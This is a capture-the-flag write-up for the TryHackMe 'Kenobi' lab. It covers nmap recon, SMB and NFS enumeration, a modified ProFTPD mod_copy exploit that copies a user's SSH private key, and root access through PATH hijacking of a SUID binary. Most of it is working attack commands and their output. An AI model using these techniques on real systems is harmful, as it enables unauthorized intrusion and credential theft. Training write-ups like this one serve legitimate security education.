

#tryhackme #linux #crackmapexec #smbclient #searchsploit #path-injection #smbget 

## Recon
---

### Nmap

```bash
# Nmap 7.94 scan initiated Wed Jun 14 12:16:04 2023 as: nmap -sVC -p- -T4 -vv -oA Kenobi 10.10.182.189
Nmap scan report for 10.10.182.189
Host is up, received reset ttl 63 (0.29s latency).
Scanned at 2023-06-14 12:16:05 EDT for 470s
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE     REASON         VERSION
21/tcp    open  ftp         syn-ack ttl 63 ProFTPD 1.3.5
22/tcp    open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8m00IxH/X5gfu6Cryqi5Ti2TKUSpqgmhreJsfLL8uBJrGAKQApxZ0lq2rKplqVMs+xwlGTuHNZBVeURqvOe9MmkMUOh4ZIXZJ9KNaBoJb27fXIvsS6sgPxSUuaeoWxutGwHHCDUbtqHuMAoSE2Nwl8G+VPc2DbbtSXcpu5c14HUzktDmsnfJo/5TFiRuYR0uqH8oDl6Zy3JSnbYe/QY+AfTpr1q7BDV85b6xP97/1WUTCw54CKUTV25Yc5h615EwQOMPwox94+48JVmgE00T4ARC3l6YWibqY6a5E8BU+fksse35fFCwJhJEk6xplDkeauKklmVqeMysMWdiAQtDj
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBpJvoJrIaQeGsbHE9vuz4iUyrUahyfHhN7wq9z3uce9F+Cdeme1O+vIfBkmjQJKWZ3vmezLSebtW3VRxKKH3n8=
|   256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB22m99Wlybun7o/h9e6Ea/9kHMT0Dz2GqSodFqIWDi
80/tcp    open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
111/tcp   open  rpcbind     syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      42496/udp   mountd
|   100005  1,2,3      48199/tcp   mountd
|   100005  1,2,3      52525/tcp6  mountd
|   100005  1,2,3      58246/udp6  mountd
|   100021  1,3,4      33571/tcp   nlockmgr
|   100021  1,3,4      43303/tcp6  nlockmgr
|   100021  1,3,4      43852/udp6  nlockmgr
|   100021  1,3,4      49070/udp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  Dtb       syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs         syn-ack ttl 63 2-4 (RPC #100003)
33571/tcp open  nlockmgr    syn-ack ttl 63 1-4 (RPC #100021)
34253/tcp open  mountd      syn-ack ttl 63 1-3 (RPC #100005)
43791/tcp open  mountd      syn-ack ttl 63 1-3 (RPC #100005)
48199/tcp open  mountd      syn-ack ttl 63 1-3 (RPC #100005)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2023-06-14T11:24:03-05:00
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h40m18s, deviation: 2h53m12s, median: 17s
| smb2-time:
|   date: 2023-06-14T16:24:03
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 60055/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 45363/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 63892/udp): CLEAN (Failed to receive data)
|   Check 4 (port 21873/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 14 12:23:55 2023 -- 1 IP address (1 host up) scanned in 471.07 seconds
```

## Enumerating Samba for shares
---

### SMB

SMB has two ports, 445 and 139.



Enum smb shares

```bash
┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ cme smb 10.10.182.189 -u '' -p '' --shares
SMB         10.10.182.189   445    KENOBI           [*] Windows 6.1 (name:KENOBI) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.182.189   445    KENOBI           [+] \:
SMB         10.10.182.189   445    KENOBI           [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.182.189   445    KENOBI           [+] Enumerated shares
SMB         10.10.182.189   445    KENOBI           Share           Permissions     Remark
SMB         10.10.182.189   445    KENOBI           -----           -----------     ------
SMB         10.10.182.189   445    KENOBI           print$                          Printer Drivers
SMB         10.10.182.189   445    KENOBI           anonymous       READ
SMB         10.10.182.189   445    KENOBI           IPC$                            IPC Service (kenobi server (Samba, Ubuntu))

```

Mount smb share

```bash
┌──(kali㉿kali)-[~/thm/Kenobi/loot/ftp]
└─$ smbclient.py 10.10.182.189 -no-pass
Impacket v0.10.1.dev1+20230607.11222.cefe192 - Copyright 2022 Fortra

Type help for list of commands
# use anonymous
# ls
drw-rw-rw-          0  Wed Sep  4 06:49:09 2019 .
drw-rw-rw-          0  Wed Sep  4 06:56:07 2019 ..
-rw-rw-rw-      12237  Wed Sep  4 06:49:09 2019 log.txt
# mget *
[*] Downloading log.txt
```

> [!NOTE] You can recursively download the SMB share too
> ```bash
> smbget -R -a smb://10.10.182.189/anonymous
> ```

It's just a ftp config log


### NFS

Show NFS mount

```bash
┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ showmount -e 10.10.182.189
Export list for 10.10.182.189:
/var *
```

Mount NFS

```bash
┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ sudo mkdir /mnt/var

┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ sudo mount -t nfs 10.10.182.189:/var /mnt/var -o nolock
```

```bash
┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ cd /mnt/var/

┌──(kali㉿kali)-[/mnt/var]
└─$ ls -la
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  4 root root  4096 Jun 14 12:47 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 12  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root tss   4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 26  2019 mail
drwxr-xr-x  2 root root  4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 29  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Jun 14 13:00 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www
```

## Gain initial access with ProFtpd
---

### Exploit ProFTPd 1.3.5 - 'mod_copy'

```bash
┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ searchsploit ProFTPD 1.3.5
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                                                      | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                                                            | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                                                                        | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                                                                                                                      | linux/remote/36742.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```bash
┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ searchsploit -m 49908
  Exploit: ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/49908
     Path: /usr/share/exploitdb/exploits/linux/remote/49908.py
    Codes: CVE-2015-3306
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/thm/Kenobi/49908.py
```

Tried `mod_copy`  exploit, user have no permission to copy file to `/var/www/html` 

```bash
┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ python3 49908.py 10.10.182.189
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.182.189]

350 File or directory exists, ready for destination name

550 cpto: Permission denied

350 File or directory exists, ready for destination name

550 cpto: Permission denied

Exploit Completed
[!] Something Went Wrong
[!] Directory might not be writable
```

> We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

So we can copy `Kenobi`'s ssh private key to nfs share at `/vars`

**Modify the exploit code**

```bash
 vi 49908.py
```

```diff
┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ diff /usr/share/exploitdb/exploits/linux/remote/49908.py 49908.py
18c18
<     client.send(b'site cpfr /etc/passwd\r\n')
---
>     client.send(b'site cpfr /home/kenobi/.ssh/id_rsa\r\n')
20,26c20
<     client.send(b'site cpto <?php phpinfo(); ?>\r\n') # phpinfo() is just a PoC.
<     print(client.recv(1024).decode())
<     client.send(b'site cpfr /proc/self/fd/3\r\n')
<     print(client.recv(1024).decode())
<     client.send(b'site cpto /var/www/html/test.php\r\n')
<     print(client.recv(1024).decode())
<     client.close()
---
>     client.send(b'site cpto /var/tmp/id_rsa\r\n') # phpinfo() is just a PoC.
29,37d22
< def check(url):
<     req = requests.get(url) # Requesting the written PoC php file via HTTP
<     if req.status_code == 200:
<         print('[+] File Written Successfully')
<         print(f'[+] Go to : {url}')
<     else:
<         print('[!] Something Went Wrong')
<         print('[!] Directory might not be writable')
<
42,43d26
<     url = 'http://' + target + '/test.php'
<     check(url)
46c29
<     main()
\ No newline at end of file
---
>     main()
```

```bash
┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ python3 49908.py 10.10.182.189
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.182.189]

250 Copy successful

Exploit Completed
```

### SSH

```bash
┌──(kali㉿kali)-[/mnt/var/tmp]
└─$ ls
id_rsa ...

┌──(kali㉿kali)-[/mnt/var/tmp]
└─$ cp id_rsa ~/thm/Kenobi

┌──(kali㉿kali)-[/mnt/var/tmp]
└─$ cd ~/thm/Kenobi

┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ chmod 600 id_rsa

┌──(kali㉿kali)-[~/thm/Kenobi]
└─$ ssh kenobi@10.10.182.189 -i id_rsa
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ id
uid=1000(kenobi) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
```

## Privilege Escalation with Path Variable Manipulation
---

### SUID

```bash
kenobi@kenobi:~$ find / -type f -perm -04000 -ls 2>/dev/null
   279750     96 -rwsr-xr-x   1 root     root        94240 May  8  2019 /sbin/mount.nfs
   277766     16 -rwsr-xr-x   1 root     root        14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   276573     44 -rwsr-xr--   1 root     messagebus    42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   277903    100 -rwsr-sr-x   1 root     root          98440 Jan 29  2019 /usr/lib/snapd/snap-confine
   260788     12 -rwsr-xr-x   1 root     root          10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   276950    420 -rwsr-xr-x   1 root     root         428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
   275955     40 -rwsr-xr-x   1 root     root          38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   260462     52 -rwsr-xr-x   1 root     root          49584 May 16  2017 /usr/bin/chfn
   275975     36 -rwsr-xr-x   1 root     root          32944 May 16  2017 /usr/bin/newgidmap
   277767     24 -rwsr-xr-x   1 root     root          23376 Jan 15  2019 /usr/bin/pkexec
   260602     56 -rwsr-xr-x   1 root     root          54256 May 16  2017 /usr/bin/passwd
   275974     36 -rwsr-xr-x   1 root     root          32944 May 16  2017 /usr/bin/newuidmap
   260525     76 -rwsr-xr-x   1 root     root          75304 May 16  2017 /usr/bin/gpasswd
   280011     12 -rwsr-xr-x   1 root     root           8880 Sep  4  2019 /usr/bin/menu
   260686    136 -rwsr-xr-x   1 root     root         136808 Jul  4  2017 /usr/bin/sudo
   260464     40 -rwsr-xr-x   1 root     root          40432 May 16  2017 /usr/bin/chsh
   277159     52 -rwsr-sr-x   1 daemon   daemon        51464 Jan 14  2016 /usr/bin/at
   260591     40 -rwsr-xr-x   1 root     root          39904 May 16  2017 /usr/bin/newgrp
   260206     28 -rwsr-xr-x   1 root     root          27608 May 16  2018 /bin/umount
   276584     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
   260157     40 -rwsr-xr-x   1 root     root          40152 May 16  2018 /bin/mount
   260171     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
   260188     40 -rwsr-xr-x   1 root     root          40128 May 16  2017 /bin/su
   260172     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
```

What file looks particularly out of the ordinary?

> /usr/bin/menu

```bash
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

```bash
kenobi@kenobi:~$ strings /usr/bin/menu
/lib64/ld-linux-x86-64.so.2
...
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
```

### Path Injection

Not using full path for commands, 

so I can do like something like : link `curl` to self-made `/tmp/curl`

```bash
kenobi@kenobi:~$ echo '/bin/bash' > /tmp/curl
kenobi@kenobi:~$ chmod +x /tmp/curl
kenobi@kenobi:~$ export PATH=/tmp:$PATH
kenobi@kenobi:~$ echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

root@kenobi:~# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
root@kenobi:~# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```